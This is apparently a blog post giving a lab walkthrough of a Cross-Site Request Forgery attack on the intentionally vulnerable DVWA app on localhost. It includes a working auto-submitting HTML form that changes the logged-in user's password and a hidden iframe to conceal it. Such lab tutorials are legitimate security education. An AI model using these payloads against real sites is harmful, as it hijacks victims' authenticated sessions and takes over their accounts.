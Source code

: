 ```yaml
---
layout: post
section-type: post
title: Exploiting CSRF to issue authenticated requests
category: tech
tags: [ 'kali', 'dvwa' ]
---
```


Today we'll see how Cross-Site Request Forgery (CSRF) attacks work.
A successful CSRF starts with social engineering, since you need a victim to click on a malicious link,
but we'll skip this part and we'll focus on the technical details of the attack.
So, imagine a user that will click on every link you send them, what could go wrong?
Well, the user will be authenticated in some websites, so what's blocking us from issuing a request on her behalf?
Nothing. And this is what CSRFs are about. Let's jump on the CSRF section of [DVWA]({% post_url 2017-04-02-dvwa-kali %}):

![csrf](/img/posts/csrf/csrf-0.png)

It's a password update page. Wouldn't it be great if we could change the logged in user's password?
Let's see how the request looks using Burp:

![csrf](/img/posts/csrf/csrf-1.png)

A simple GET request with two parameters, the new password and its verification.
Let's craft a page that will automatically trigger this request when it loads:

<pre><code data-trim class="html">
&#x3C;!-- csrf.html--&#x3E;
&#x3C;html&#x3E;
&#x3C;body&#x3E;
&#x3C;form action=&#x22;http://127.0.0.1/dvwa/vulnerabilities/csrf/&#x22; method=&#x22;GET&#x22; id=&#x22;csrfForm&#x22; name=&#x22;csrfForm&#x22;&#x3E;
&#x9;&#x3C;input name=&#x22;password_new&#x22; value=&#x22;password&#x22; /&#x3E;
&#x9;&#x3C;input name=&#x22;password_conf&#x22; value=&#x22;password&#x22; /&#x3E;
&#x9;&#x3C;input name=&#x22;Change&#x22; value=&#x22;Change&#x22; /&#x3E;
&#x3C;/form&#x3E;
&#x3C;script&#x3E;
document.forms[&#x22;csrfForm&#x22;].submit();
&#x3C;/script&#x3E;
&#x3C;/body&#x3E;
&#x3C;/html&#x3E;
</code></pre>

Now let's open the *csrf.html* file in our browser (where we are already logged in DVWA):

![csrf](/img/posts/csrf/csrf-2.png)

The password was changed!
The browser just saw a request to DVWA and loaded the user's cookies, including the session id, which made our request completely legitimate.
If we were not logged in DVWA, or if we were opening the *csrf.html* in a private window, then the attack wouldn't work.

How can we improve this attack? Like it's right now, the user will notice the loaded page and figure out that something phisy is going on.
Well, let's just hide the *csrf.html* in an invisible iframe:

<pre><code data-trim class="html">
&#x3C;html&#x3E;
&#x3C;body&#x3E;
&#x3C;iframe src=&#x22;file:///root/Desktop/csrf.html&#x22; style=&#x22;display:none&#x22; /&#x3E;
&#x3C;/body&#x3E;
&#x3C;/html&#x3E;
</code></pre>

And let's open it:

![csrf](/img/posts/csrf/csrf-3.png)

:smile:

CSRF is powerful, but it's not a common vulnerability since all the web frameworks are taking care of it automatically (by adding a CSRF token, that needs to be included in the POST requests), but it's a useful attack to be aware of and it can always be used in combination on top of an [XSS]({% post_url 2017-04-15-dvwa-xss %}) attack.

Happy CSRF-ing!

